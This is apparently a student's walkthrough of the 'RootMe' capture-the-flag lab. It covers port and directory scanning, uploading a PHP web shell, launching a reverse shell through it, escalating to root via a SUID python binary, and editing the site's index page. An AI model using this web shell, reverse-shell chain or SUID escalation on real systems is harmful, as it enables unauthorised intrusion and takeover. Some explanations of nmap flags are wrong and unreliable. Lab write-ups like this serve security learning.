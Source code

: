 # root me
- tool: gobuster
- web: cyberchef, revshell, gtfgobins

## task 1
- deploy
- ip = 10.10.1.253

## task 2
- scan the machine how many ports are the open? 2
  - ```nmap -sC -sV 10.10.1.253 -oN ip.log```
  - -sC vulnerabilty, -sV verbose, -oN outputNormal, ip.log nama_file
- What version of Apache is running? 2.4.29
- What service is running on port 22? ssh
- Find directories on the web server using the GoBuster too? /panel/
  - ```gobuster dir -u http://10.10.1.253/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
    - gobuster =brute force URIs (directories and files), DNS subdomains, and virtual host name
    - dir = type directory
    - -u = destination url
    - -w = file worldlist

## task 3
- Getting a shell
  - open "http://10.10.1.253/panel" in browser
  - create some file php injection
    ```
    exmple PHP Injection Using eval() Function

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("$myvar = $x;");
    ```
    ```<php echo system($_GET['c']); ?>``` in file sh.php5
  - open "http://10.10.1.253/uploads" and click sh.php5
  - add ```?c=ls``` in last url
- make revese shell
  - open cyberchef, revshell
    - revshell: add option ur ip ex: 10.10.1.1, and port 9001
    - copy Listener "nc -lvnp 9001" and paste in terminal
    - copy script: ncmkfifo 
    - open cyberchef: add to base64
    - paste script
    - copy script base64
  - and add url ```?c=echo script_base64_falkjfalkfgjalfa | base64 -d > shell.sh```
    ```
    ?c=chmod 777 shell.sh
    ?c=bash shell.sh
    ```
  - open terminal (dont forget paste listener before "bash shell.sh")
    - ```nc -lvnp 9001``` after that reverse connector is connect
    - $whoami
  - fiexd terminal
    - nampilin lokasi file, dan ubah variable terminal TERM menjadi xterm
    ```
    python3 -c "import pty; pty.spawn('/bin/bash')"
    export TERM=xterm
    ```
    - ctrl z
    ```
    stty raw -echo;fg;
            reset
    ```
  - find user.txt
    ```
    cd /var/www
    ls -la
    cat user.txt
    ```

## task 4
- Search for files with SUID permission, which file is weird?
  - use find
    ```
    find / -user root -perm /4000
    find / -perm /4000 2>dev/null
    find / -type f -name user.txt 2> /dev/null
    ```
    - find /usr/bin/python if have python u can use python in this terminal
  - find SUID in gtfobins
    - find: python SUID, and copy
    - ```python -c 'import os; os.execl("/bin/bash", "bash", "-p")'```
  - access root
    ```
    cd root
    ls -la
    cat root.txt
    ```
  - u can also change the website
    ```
    cd /var/www/html
    nano index.php
    systemctl restart apache2
    ```